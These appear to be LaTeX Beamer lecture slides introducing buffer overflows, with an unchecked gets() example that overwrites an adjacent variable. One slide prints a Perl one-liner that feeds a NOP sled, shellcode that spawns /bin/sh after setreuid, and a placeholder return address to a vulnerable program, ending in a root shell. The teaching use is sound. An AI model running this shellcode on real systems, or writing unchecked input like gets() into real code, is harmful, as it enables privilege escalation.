\section{Buffer Overflows}
%\begin{frame}{Buffer Overflows}
%Bufferoverflow
%*Stack based / Heap based (just a slide)
%*EBP+4 (or RBP+8)
%*Unsafe functions (that ones which permit a buffer overrun)
%*(quick Example ?)
%\end{frame}

\subsection{What is BOF?}
\begin{frame}[fragile,allowframebreaks]{What is BOF?}
	\begin{figure}
		\centering
		
\includegraphics[height=.7\textheight]{imgs/segfault.png}
		\caption{BOF segmentation fault}
		\label{fig:segfault}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
			Segmentation fault
		\end{verbatim}
	\end{block}
\end{frame}
\begin{frame}[fragile,allowframebreaks]{How to use BOF?}
	\begin{figure}
		\centering
		
\includegraphics[height=.7\textheight]{imgs/whoami.png}
		\caption{BOF whoami: root}
		\label{fig:whoami}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note `perl -e 'printf("\x90" x 153 .
    "\x31\xdb\x31\xc9\x31\xc0\xb0\xcb\xcd\x80\x31\xc0\x50
     \x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50
     \x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xdb\xb0\x01
     \xcd\x80" . "\x90" x 22 . "\xef\xbe\xad\xde")'`
			sh-3.1# whoami
			root
		\end{verbatim}
	\end{block}
\end{frame}

\subsection{Basic Overflow}
\begin{frame}[fragile,allowframebreaks]{Basic Overflow}
	In the following example, a program has defined two data items which are adjacent in memory: an 8-byte-long string buffer, A, and a two-byte integer (short), B. Initially, A contains nothing but zero bytes, and B contains the number 1979. Characters are one byte wide.
	\ccode
	\begin{lstlisting}
	char A[8] = {0,0,0,0,0,0,0,0};
	short B = 1979;
	\end{lstlisting}
	\begin{figure}
		\centering
		
\includegraphics[width=\textwidth]{imgs/initialAB.png}
		\caption{A and B variables initial state}
		\label{fig:initialAB}
	\end{figure}
\framebreak
	Now, the program attempts to store the null-terminated string "excessive" in the A buffer. "excessive" is 9 characters long, and A can take 8 characters. By failing to check the length of the string, it overwrites the value of B
	\ccode
	\begin{lstlisting}
	gets(A);
	\end{lstlisting}
	\begin{figure}
		\centering
		
\includegraphics[width=\textwidth]{imgs/finalAB.png}
		\caption{A and B variables final state}
		\label{fig:finalAB}
	\end{figure}
\end{frame}

\subsection{Heap-based Overflow}
\subsection{Stack-based Overflow}
